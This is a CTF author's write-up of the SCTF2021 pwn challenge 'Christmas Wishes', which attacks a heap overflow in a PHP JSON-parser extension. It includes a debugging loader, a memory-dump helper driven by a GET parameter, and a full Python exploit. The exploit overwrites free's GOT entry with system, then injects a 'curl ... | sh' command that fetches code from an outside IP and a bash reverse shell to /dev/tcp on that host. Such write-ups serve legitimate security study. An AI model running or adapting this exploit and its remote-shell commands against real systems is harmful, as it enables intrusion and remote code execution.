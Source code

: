# SCTF2021 pwn Christmas Wishes 出题思路+预期解



* [Christmas Wishes](#christmas-wishes)
  * [题目描述](#题目描述)
  * [出题思路](#出题思路)
  * [调试方案](#调试方案)
  * [getshell](#getshell)
  * [exp](#exp)

## 题目描述

圣诞许愿！请输入你的愿望吧！现在已经全面支持json格式！(漏洞利用脚本存在直接成功情况，请在本地搭建环境成功后尝试利用远程，远程环境每五分钟重启一次。)
Make a Christmas wish! Please enter your wish! Now has full support for json format! (Vulnerability exploit script exists direct success, please try to exploit the remote after a successful local build environment, remote environment restart every five minutes.)

题目分值：800

解题人数：6

[题目文件](https://github.com/SycloverTeam/SCTF2021/tree/master/pwn/ChristmasWishes)

## 出题思路

其实最开始没想做成一个php pwn题目，原本就是写了个json parser， 然后模拟一个大的项目中的用来处理json的一个小组件，里面存在漏洞， 构造个环境去利用。

在写完以后发现了一个parser_string位置的堆溢出漏洞，而且和`cve 2021 3156`一样。

![image-20220103005237802](https://s2.loli.net/2022/01/03/LuRnxqacFE8TIv7.png)

然后配合链表单向修改可以实现任意地址写，

![image.png](https://s2.loli.net/2022/01/03/cULSumZFydVgvWj.png)

在和[@AFKL](https://afkl-cuit.github.io/)简单讨论这个思路时提到可以直接做成一个php网站，由于本来的代码也是模块化出来的，于是很简单的修改成了一个php拓展，搭建出来目前这个样子。

原本elf版本的在文件 `JsonParse_elf`， php拓展在文件`jsonparser_php`， 

## 调试方案

因为是个so文件，编写了一个简单的loader进行调试

```c
#include <stdio.h>
#include <dlfcn.h>
#include <string.h>
#include <stdlib.h>

typedef struct reader {
    char *buf;
    int size;
    int offset;
} _reader;

int main(){
    void *handle = dlopen("modules/jsonparser.so", RTLD_LAZY);
    void *(* Parser)(void *temp);
    _reader *reader = malloc(0x10);
    char * json = malloc(0x100);
    int fd = open("./exp.json", 0);
    int size = read(fd, json, 0x100);
    reader->buf = json;
    reader->size = size;
    reader->offset = 0;

    Parser = dlsym(handle, "Parser");
    Parser(reader);
}
```

思路是通过重复删除机制构造堆布局，然后通过堆溢出覆盖Item_struct， 通过重复删除的双链表修改可以实现地址修改，将so文件的free_got改为system， 基本可以调试并得到exp， 



在出题过程中对远程docker环境的调试，

直接hook掉了malloc free函数， 在函数`zif_jsonparser_test2`位置增加代码即可，通过`php_printf`打印相关信息可以得到远程的堆环境，(文件在`jsonparser_patch.so`)

```
call 0x0000000000002504
0000000000002504 hook_malloc  

	push rdi;
	call 0x000000000002220;
	pop rsi;
	push rax;
	mov rdx, rax;
	lea rax, qword ptr [0x0000000000024B9]
	mov rdi, rax;
	call 0x00000000002230
	pop rax;
	ret;


call 0x0000000000002526
0000000000002526 hook_free   

	push rdi;
	mov rsi, rdi;
	lea rax, qword ptr [0x000000000024D9]
	mov rdi, rax;
	call 0x00000000002230
	pop rdi;
	call 0x0000000000002050;
	ret;
```

> 甚至在这个操作中还解决了一个bug

![image.png](https://s2.loli.net/2022/01/03/YvHV6ecm4MnzbXi.png)

> 图中可以看到， 最后free的堆块为 0x9200，向上找到size为0x40为item结构体， 而我们构造的溢出的字符串为0x17的 地址为0x91e0，于是可以直接向下覆盖， 修改掉这个结构体，利用delete_item位置。

![image.png](https://s2.loli.net/2022/01/03/AvkiGLwWQS1xRFg.png)

然后编写了个memory_detection的拓展 封装成api， 用于直接查看内存。

```c
PHP_FUNCTION(memory_detection)
{
	long var;
	ZEND_PARSE_PARAMETERS_START(0, 1)
		Z_PARAM_OPTIONAL
		Z_PARAM_LONG(var)
	ZEND_PARSE_PARAMETERS_END();

	php_printf("memeory detection: [%p]\n", var);
	void * p;
	for(int i=0; i<0x100; i++){
		p = var + i*8;
		php_printf("addr[%p]: \t%016llx\t%s\n", p, (long long)*(long long *)p, (char *)p);
	}
}
```

```php
<?php 
memory_detection(base_convert($_GET["addr"], 16, 10));
```

![image.png](https://s2.loli.net/2022/01/03/VWzI7vfjYRFnKtx.png)

## getshell

最后反弹shell， `bash -c '/bin/bash -i >& /dev/tcp/1.14.92.160/9999 0>&1'`, 

## exp

```python
from pwn import * 
import requests

# context.log_level='debug'
# context.terminal=['tmux', 'splitw', '-h']

# cn = process("./loader")

host = 'http://124.70.201.145:7777/'

cmd = '''
# b * Parser
# b * new_Object
b * delete_item
'''
def hhex(number):
    num = "{:0>16x}".format(number)
    tmp = [num[i:i+2] for i in range(0, 16, 2)][::-1]
    tmp2 = ["".join(tmp[i:i+2]) for i in range(0, 8, 2)]
    return "\\u" + "\\u".join(tmp2)


def printff(num):
    print("{:0>16x}".format(num))

# from /proc/self/maps
base = 0x7f872c6e2000
system     = base + 0x000000000002170
printf     = base + 0x000000000002230
free_got   = base + 0x000000000006028
bss = base + 0x00000000000632C


echohello = base + 0x0000000000004059


json = '''
{{
    "1": "aaaaaaa", 
    "2": "aaaaaaa", 
    "3": "aaaaaaa", 
    "4": "aaaaaaa", 
    "5": "aaaaaaa", 
    "6": "aaaaaaa", 
    "7": "aaaaaaa", 
    "8": "aaaaaaa", 
    "A": "aaaaaaa", 
    "A": "bbbbbbb",
    "A": 1, 
    "B": 2,
    "echo hello": "{pad1}\\\x00{pad2}{fake_item}"
}}
'''.format(
    pad1 = 'c' * 0x15, 
    pad2 = 'a'* (0x20 - 0x15), 
    # fake_item = "sh -i < /dev/tcp/81.69.0.47/9" + "\\u0000a" + hhex(echohello) + hhex(0) + hhex(printf) + hhex(free_got - 0x30)
    fake_item = "bash -c 'curl 1.14.92.160|sh'\\u0000"+'a'*1 + hhex(echohello) + hhex(0) + hhex(system) + hhex(free_got - 0x30)
)
'''
wlz@VM-0-4-ubuntu:~$ curl 1.14.92.160
bash -c '/bin/bash -i >& /dev/tcp/1.14.92.160/9999 0>&1'
'''


r = requests.post(host, data={'wishes': json})
print(r.status_code)
print(r.text)
print(json)

printff(system)
printff(printf)
printff(free_got)


# gdb.attach(cn, cmd)
# cn.sendline(json)
# cn.interactive()

```

